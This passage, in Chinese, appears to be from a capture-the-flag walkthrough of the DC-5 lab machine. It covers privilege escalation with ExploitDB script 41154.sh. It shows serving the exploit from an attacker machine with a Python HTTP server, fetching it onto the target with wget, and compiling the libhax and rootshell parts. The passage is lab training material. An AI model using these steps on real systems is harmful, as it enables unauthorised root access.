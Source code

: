 直接利用

/usr/share/exploitdb/exploits/linux/local/41154.sh

将该文件拷贝至攻击机 /home/pendo 目录下

![30](https://havocykp.github.io/assets/images/img_blog7/30.png)

将41154.sh文件上传到目标机DC-5

如何上传？ 首先在攻击机 41154.sh文件所在目录下开启 python.server，供下载

```python
命令：python3 -m http.server 9999
```

![31](https://havocykp.github.io/assets/images/img_blog7/31.png)

切换目标机目录 /tmp，下载文件

```javascript
命令：www-data@dc-5:/tmp$ wget http://192.168.2.110:9999/41154.sh
```

![32](https://havocykp.github.io/assets/images/img_blog7/32.png)

编译脚本

```javascript
chmod +x 41154.sh
sed -i "s/r//" 41154.sh
./41154.sh
```

![33](https://havocykp.github.io/assets/images/img_blog7/33.png)

发现脚本执行错误

重新在攻击机中打开 41154.sh文件，研究一下脚本代码

![34](https://havocykp.github.io/assets/images/img_blog7/34.png)

通过分析，根据代码提示，对以上代码应该分三步走

① libhax.c 代码并编译

![35](https://havocykp.github.io/assets/images/img_blog7/35.png)

编译完后，删除源代码文件

![36](https://havocykp.github.io/assets/images/img_blog7/36.png)

② rootshell.c代码并编译

![37](https://havocykp.github.io/assets/images/img_blog7/37.png)

编译完后，删除源代码文件

![38](https://havocykp.github.io/assets/images/img_blog7/38.png)
